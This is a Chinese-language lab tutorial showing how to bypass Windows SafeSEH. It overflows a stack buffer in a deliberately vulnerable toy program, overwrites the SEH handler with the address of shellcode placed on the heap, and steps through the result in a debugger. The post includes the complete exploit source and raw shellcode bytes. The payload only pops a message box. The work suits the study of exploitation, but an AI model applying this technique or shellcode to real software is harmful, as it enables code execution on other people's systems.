







# Using heap overrun bypass SafeSEH

**Author：wnagzihxain
Mail：tudouboom@163.com**

```
#include <stdafx.h>
#include <stdlib.h>
#include <string.h>

char shellcode[] = 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
;

void test(char* input)
{
	char str[200];
	strcpy(str, input);	
    int zero = 0;
	zero = 1/zero;
}

int main()
{
	char* buf = (char *)malloc(500);
	__asm int 3
	strcpy(buf, shellcode);
	test(shellcode);	
	return 0;
}
```

代码解释：先申请500字节的空间，然后中断，这是为了方便找到堆的起始位置，然后将shellcode存放到堆中，接下来执行test函数导致缓冲区溢出，紧接着一个除0异常触发异常处理，因为异常处理函数已经被覆盖成堆里shellcode的起始地址，所以直接绕过SafeSEH

编译器是VS2005,，生成Release版本，记得禁用优化，运行起来载入OD

代码窗可以看到申请堆空间的两条指令，右上角的EAX处存的是申请的堆空间的起始地址，左下角数据区跟随一下就可以看到了，虽然现在还有值，但是没关系的



接下来几行代码就是将shellcode存放到堆空间了，来读读汇编吧
```
00401796   .  68 18304000   push    offset shellcode                 ; /src = ""90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,"",90,""
0040179B   .  8B45 FC       mov     eax, dword ptr [ebp-4]           ; |
0040179E   .  50            push    eax                              ; |dest
0040179F   .  E8 6CF8FFFF   call    strcpy                           ; \strcpy
004017A4   .  83C4 08       add     esp, 8				
```

有事没事读读汇编也是不错的

然后我们走完这段，到这两句，也就是执行test函数
``` 
004017A7   .  68 18304000   push    offset shellcode
004017AC   .  E8 7FFFFFFF   call    test
```

跟过去



同样我们来读读汇编
``` 
00401730 &gt; $  55            push    ebp
00401731   .  8BEC          mov     ebp, esp
00401733   .  81EC D0000000 sub     esp, 0D0;抬高栈顶
00401739   .  A1 00304000   mov     eax, dword ptr [__security_cookie] ;取出.data段Cookie
0040173E   .  33C5          xor     eax, ebp;生成Security Cookie
00401740   .  8945 F8       mov     dword ptr [ebp-8], eax;将Security Cookie存入栈中
00401743   .  8B45 08       mov     eax, dword ptr [ebp+8];这是调用test时压栈的shellcode指针
00401746   .  50            push    eax                                  ; /src
00401747   .  8D8D 30FFFFFF lea     ecx, dword ptr [ebp-D0]              ; |
0040174D   .  51            push    ecx                                  ; |dest
0040174E   .  E8 BDF8FFFF   call    strcpy                               ; \strcpy
00401753   .  83C4 08       add     esp, 8
00401756   .  C745 FC 00000&gt;mov     dword ptr [ebp-4], 0;存个0，为下面除0做准备
0040175D   .  B8 01000000   mov     eax, 1
00401762   .  99            cdq
00401763   .  F77D FC       idiv    dword ptr [ebp-4];除0操作
```

在单步走下去的时候可以看到缓冲区起始位置，直接观察栈布局或者看参数都可以看出来的，栈中标记出来的就是缓冲区起始地址，同样代码窗口同样可以看到dest目标地址



执行完strcpy



既然各种起始地址找的差不多了，可以来看看S.E.H链了，可以看到只有两个，最上面的是`0x0012FFB0`，这个是nextSEH的指针，真正执行的是`0x0012FFB4`处的异常处理函数指针



看到这里接下来的事就好办了，我们的shellcode弄长点，`\x90`填充到`0x0012FFB0`位置，后面跟上申请的堆空间起始地址，也就是shellcode的起始地址

长度计算可以用各种工具包里自带的，吾爱虚拟机和shark恒的虚拟机都很好用，推荐一下，里面工具包都很全，我现在用的是shark恒的虚拟机，用的吾爱的工具包

修改后的代码如下
``` 
#include "stdlib.h"
#include "string.h"

char shellcode[] = 
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xA0\x29\x3B\x00"//address of shellcode in heap
;

void test(char* input)
{
	char str[200];
	__asm int 3
	strcpy(str,input);	
    int zero = 0;
	zero = 1/zero;
}

int main()
{
	char* buf = (char *)malloc(500);
	strcpy(buf, shellcode);
	test(shellcode);	
	return 0;
}
```

同样中断后OD附加调试，走完strcpy可以看到S.E.H已经被覆盖掉了，不用管nextSEH



那么接下来的情况就比较清楚了，我们构造的除0异常会触发异常，程序调用异常处理，因为异常处理函数的指针指向的是堆空间，而SafeSEH对指向堆空间的异常处理函数指针是直接校验通过的，所以直接就执行shellcode了

接下来我们去掉断点看看效果

